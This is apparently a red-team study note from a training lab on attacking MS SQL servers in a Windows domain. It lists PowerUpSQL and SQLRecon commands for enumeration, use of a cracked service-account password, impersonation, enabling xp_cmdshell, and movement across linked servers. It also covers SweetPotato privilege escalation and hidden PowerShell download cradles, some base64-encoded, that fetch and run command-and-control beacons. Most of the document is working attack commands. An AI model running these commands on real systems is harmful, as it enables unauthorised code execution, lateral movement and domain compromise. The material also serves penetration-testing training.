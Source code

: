 # MS SQL Servers Notes

Tools:
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[SQLRecon](https://github.com/skahwah/SQLRecon) [wiki](https://github.com/skahwah/SQLRecon/wiki/)

## Enum
```
powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
powershell Get-SQLInstanceDomain
test connection:
powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
Gather more info:
powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
for multiple SQL Servers:
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
Using SQL Recon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

find any users with access 
```
powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
```

## attack sql account itself

so if we have a ms sql server account we can try kerberoasting it then use beacons make_token with the cracked password, then run this to abuse
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

## with access

querying
```
powerup:
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
proxychains impacket:
proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
or use proxifier with a sql gui
```

## MS SQL Impersonation

allows the executing user to assume the permissions of another user without needing their password

queries:
```
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
look up the output IDs:
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```

can use sqlrecon to join these two into one
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

example of using with queries
```
check user and privs:
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
using the execute as to query in the context of the target:
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
```

with sqlrecon to use impersonation mode
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```


## MS SQL Command Execution

using Invoke-SQLOSCmd from PowerupSQL, this enables then disables xp_cmdshell
```
powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

query the usage of xp_cmdshell
```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
to enable:
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

sqlrecons but using the /i to impersonate and run
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

abusing to get a beacon on the sql server
steps:
1. create reverse port forward to tunnel traffic through our C2 chain
2. host smb beacon
3. download and execute beacon, with either b64 cradle or not
4. then link the new beacon

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
or base64:
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```

## MS SQL Lateral Movement

sql servers have links which allows a db instance to access data from an external source

enumerate
```
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
or:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

can send queries to linked source with openquery
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
or sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```

check xp-cmdshell:
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
```

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

query our link for more links
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
or use powerupsql to keep looking recursively for them, this also shows the privs account the sql is set up with:
powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
query this with lwhoami for sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```

## get beacon on new link

keep in mind that the new link my only be able to talk to the new sql server we already popped, so keep that in mind to set up the port forward for traffic. CS will double hop it over so don't worry about setting up the forward to a different one just do so like below in the beacon that can talk to the link.

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80

with Openquery to execute:
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc <base64 powershell cradle>''')

or with AT syntax:
EXEC('xp_cmdshell ''powershell -w hidden -enc <base64 cradle>''') AT [sql-1.cyberbotic.io]

```

## MS SQL Privilege Escalation

Tools:
[SweetPotato](https://github.com/CCob/SweetPotato)

typical for sql servers to run as NT Service\MSSQLSERVER, we can upgrade these permissions by abusing SeImpersonatePrivilege
```
check privs
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <powershell download cradle>
connect localhost 4444
```

doing a connect localhost because we used a tcp beacon which binds to localhost when ran


